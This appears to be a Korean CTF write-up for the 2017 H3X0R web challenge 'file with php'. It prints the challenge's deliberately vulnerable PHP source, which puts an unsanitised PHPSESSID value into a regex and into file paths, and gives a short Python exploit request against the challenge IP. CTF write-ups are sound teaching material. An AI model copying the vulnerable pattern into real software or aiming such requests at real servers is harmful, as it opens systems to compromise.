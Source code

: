 ======================================================
[2017_H3X0R] [WEB] file with php
======================================================

문제 내용
======================================================

http://13.124.93.183/h3x0rctf/d41d8cd98f00b204e9800998ecf8427e.php


문제 풀이
======================================================

해당 사이트에 접속해보면 Blank Page. LoL이라고 뜨고 있는데, 쿠키값을 확인해보면 source라는 값이 0으로 존재한다. 해당 값을 1로 수정하면 다음과 같은 php 소스코드를 확인할 수 있다.

.. code-block:: php

    <?php
        
        $flag = 1;
        include "config.php";
        
        $_SESSION[cookie] = $_COOKIE[PHPSESSID];

        if($_GET['mode']=="pwn") {

            $f=file("$_SESSION[cookie].txt");
            
            if(preg_match("/^$_SESSION[cookie]$/i", md5($f[0]))) {
                unlink("$_SESSION[cookie].txt");
                echo $flag;
            }
        
            $f = fopen(md5($_SESSION[cookie]).".txt", "w");
            fwrite($f,$_SESSION[cookie]);
            fclose($f);
            usleep(300000);
            unlink(md5($_SESSION[cookie]).".txt");
        }

        if($_COOKIE['source']) {
            show_source(__FILE__);
            exit();
        }
        
        setcookie('source', 0);
        echo "<h3> Blank Page. LoL </h3>";
    ?>


문제를 볼 때 항상 입력값과 출력값을 염두해두자. 입력값은 mode 파라미터와 PHPSESSID 쿠키 값이고, 출력하고자하는 값은 flag 변수이다.
출력 값인 flag 변수 내용을 가져오기 위해서는, 조건문이 2개 맞아야 한다.

1. mode 파라미터가 pwn이어야 한다.
2. f변수의 0번째 값을 md5한 값이 PHPSESSID 쿠키 값과 일치해야 한다.

f변수는 PHPSESSID 쿠키 값으로 파일을 생성하는데, 최초 생성이기에 해당 array에는 아무 내용도 없을 것이다. 
그 때문에 $f[0]=""일 것이고, md5($f[0])=d41d8cd98f00b204e9800998ecf8427e 일 것이다.


다음과 같은 python 코드를 통해 플래그를 획득한다.

.. code-block:: python

    import requests

    url = "http://13.124.93.183/h3x0rctf/d41d8cd98f00b204e9800998ecf8427e.php?mode=pwn"
    header = {
        "Cookie":"PHPSESSID=d41d8cd98f00b204e9800998ecf8427e"
    }
    r = requests.get(url,headers=header)
    print r.content
